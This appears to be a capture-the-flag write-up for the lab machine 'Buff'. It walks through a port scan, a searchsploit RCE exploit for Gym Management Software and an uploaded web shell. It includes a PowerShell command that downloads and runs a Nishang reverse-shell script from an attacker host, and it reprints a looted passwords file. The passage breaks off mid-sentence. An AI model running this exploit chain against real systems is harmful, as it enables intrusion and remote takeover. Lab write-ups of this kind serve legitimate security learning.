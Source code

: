 # buff

nmap scan shows that we have 2 ports open, they are 8080,7680

lets browse the 8080 http port first. as we keep navigating the pages, we see there is something here

![](../../.gitbook/assets/image%20%2817%29.png)

there is something called a gym management software here, which the first thing we do is searchsploit and it shows us that we have unauthenticated RCE which is the most interested one for us

![](../../.gitbook/assets/image%20%2818%29.png)

lets get the python script using `searchsploit -m php/webapps/48506.py`. our exploit script exits without conecting to any web shell as such, but if we look at the script, its making use of this  
[`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami`](http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami)\`\`

![](../../.gitbook/assets/image%20%287%29.png)

we got a shell kind of thing here, so now, I'm going to use nishang powershell script to get us back a reverse shell

lets host the Nishang `Invoke-PowerShellTcp.ps1` script on our webserver and run it from the uploaded web shell that we have, and we will get a reverse shell from this

```text
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=powershell%20%22iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.28/sh.ps1%27)%22
```

![reverse shell](../../.gitbook/assets/image%20%2819%29.png)

we found a `passwords.txt` on the machine

```text
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords)
```

so, now we got a first shell, and there are couple of listening ports, I want to 

